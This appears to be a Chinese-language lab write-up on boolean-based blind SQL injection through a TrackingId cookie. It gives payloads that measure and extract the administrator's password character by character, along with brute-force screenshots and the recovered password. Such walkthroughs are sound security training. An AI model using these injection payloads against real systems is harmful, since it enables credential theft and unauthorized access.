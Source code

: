 ### 布尔盲注

TrackingId 存在注入：

```
TrackingId=KR8N39zxrQulsf1O'and '1'='1

# 将如下 welcome back 作为注入标识，如果存在 welcome back，判断语句为 true，否则为 false。
```

![image-20250521101637646](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521101637646.png)

布尔盲注 payload：

```
TrackingId=KR8N39zxrQulsf1O'and char_length((select password from users where username='administrator'))='20

TrackingId=KR8N39zxrQulsf1O'and substr((select password from users where username='administrator'),1,1)>'t
```

爆破：

![image-20250521104343289](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521104343289.png)

结果：

![image-20250521104326881](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/SQL%20%E6%B3%A8%E5%85%A5/images/image-20250521104326881.png)

```
b9ch81uuiq1s8b9w6zou
```

